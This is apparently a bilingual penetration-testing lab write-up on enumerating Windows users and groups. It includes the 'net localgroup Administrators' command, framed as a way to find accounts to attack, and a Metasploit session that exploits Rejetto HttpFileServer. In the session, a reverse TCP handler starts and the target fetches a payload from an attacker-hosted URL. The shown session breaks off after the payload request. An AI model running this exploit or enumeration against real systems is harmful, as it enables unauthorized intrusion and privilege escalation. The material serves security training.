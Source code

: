 These are all the local groups on the system. These are tied into services or these particular groups are used for to provide specific users with specific privileges. If a user is part of the Remote Desktop Users group, then it means that, they have the permissions or privileges to log onto a system via RDP or the remote desktop protocol.

However, the administrator account is part of the local built-in administrators group. We could identify other members that are part of the local administrators group. 

```
net localgroup Administrators
```

This is a very important command because it'll tell you what other user accounts are part of this group. And that will give you an idea as to what account you can try and attack or gain access to in order to obtain administrative privileges.

That means that any member of the administrators group will have all the privileges required to have unrestricted access to the target system or domain.

That is how to perform user and group enumeration on Windows.

# Enumerating Users & Groups
## Overview
Goal

This lab covers the process of enumerating users and groups on a Windows target system.

# 枚举用户和组
## 概述
目标

本实验涵盖了在 Windows 目标系统上枚举用户和组的过程。

## 复现视频内容
Target IP Address : 10.0.19.183

Kali Linux : 10.10.16.2

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
msf5 exploit(windows/http/rejetto_hfs_exec) > setg RHOSTS 10.0.19.183
RHOSTS => 10.0.19.183
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Using URL: http://0.0.0.0:8080/CXiRZ9
[*] Local IP: http://10.10.16.2:8080/CXiRZ9
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /CXiRZ9
```